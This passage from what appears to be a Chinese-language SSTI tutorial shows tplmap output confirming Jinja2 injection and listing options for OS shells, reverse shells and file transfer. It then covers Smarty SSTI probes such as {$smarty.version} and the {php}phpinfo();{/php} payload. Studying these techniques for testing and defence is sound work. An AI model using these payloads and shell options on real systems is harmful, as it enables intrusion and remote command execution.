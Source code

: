 ```javascript
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name                //说明可以注入，同时给出了详细信息
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok           //检验出这些利用方法对于目标环境是否可用
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:
                                                                  //可以利用下面这些参数进行进一步的操作
    --os-shell        Run shell on the target
    --os-cmd        Execute shell commands
    --bind-shell PORT      Connect to a shell bind to a target port
    --reverse-shell HOST PORT  Send a shell back to the attacker's port
    --upload LOCAL REMOTE  Upload files to the server
    --download REMOTE LOCAL  Download remote files
```

复制

### **9、smarty SSTI**

smarty是基于PHP开发的，官方文档 于Smarty的SSTI的利用手段与常见的flask的SSTI有很大区别

注入点：

- XFF
- Client IP

确认漏洞：

- 输入`{$smarty.version}`，返回smarty的版本号

##### **`{php}{/php}`标签**

Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令

```javascript
{php}phpinfo();{/php}
```

复制

但在Smarty3的官方手册里有以下描述：

- Smarty已经废弃{php}标签，强烈建议不要使用
- 在Smarty 3.1，`{php}`仅在SmartyBC中可用

